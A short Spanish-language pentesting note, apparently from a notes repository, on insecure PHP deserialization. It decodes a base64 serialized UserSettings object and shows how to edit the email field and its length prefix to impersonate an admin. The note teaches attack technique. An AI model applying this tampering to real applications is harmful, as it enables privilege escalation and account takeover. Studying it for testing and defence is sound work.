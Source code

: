 ### INFO
Supongamos que conseguimos este objeto:

    TzoyNDoiQXBwXEhlbHBlcnNcVXNlclNldHRpbmdzIjo0OntzOjMwOiIAQXBwXEhlbHBlcnNcVXNlclNldHRpbmdzAE5hbWUiO3M6NjoicG9yb3RhIjtzOjMxOiIAQXBwXEhlbHBlcnNcVXNlclNldHRpbmdzAEVtYWlsIjtzOjE3OiJwb3JvdGFAcG9yb3RhLmNvbSI7czozNDoiAEFwcFxIZWxwZXJzXFVzZXJTZXR0aW5ncwBQYXNzd29yZCI7czo2MDoiJDJ5JDEwJHJoc3hSdzFYOGdwQk5oSWFNVks5Zy5qUkVoZkVxTldyTnBJR3hUcExyeTFubjh2cDhZR1hDIjtzOjM2OiIAQXBwXEhlbHBlcnNcVXNlclNldHRpbmdzAFByb2ZpbGVQaWMiO3M6MTE6ImRlZmF1bHQuanBnIjt9

Al decodearlo de base64 encontramos que es un serializado de datos de usuario

    O:24:"App\Helpers\UserSettings":4:{s:30:"App\Helpers\UserSettingsName";s:6:"porota";s:31:"App\Helpers\UserSettingsEmail";s:17:"porota@porota.com";s:34:"App\Helpers\UserSettingsPassword";s:60:"$2y$10$rhsxRw1X8gpBNhIaMVK9g.jREhfEqNWrNpIGxTpLry1nn8vp8YGXC";s:36:"App\Helpers\UserSettingsProfilePic";s:11:"default.jpg";}

Podríamos manipular el objeto serializado para elevar nuestros priviletios o impersonar un usuario:

**Tener siempre en cuenta el tipo de dato a manipular y el size del mismo**

Teniendo en cuenta el caso de ejemplo, si quisieramos impersonar al admin deberíamos modificar **s:17:"porota@porota.com"** 

Para esto no solo cambiamos el mail del user, sino también el size del tipo de dato quedando: **s:16:"admin@porota.com"**
    
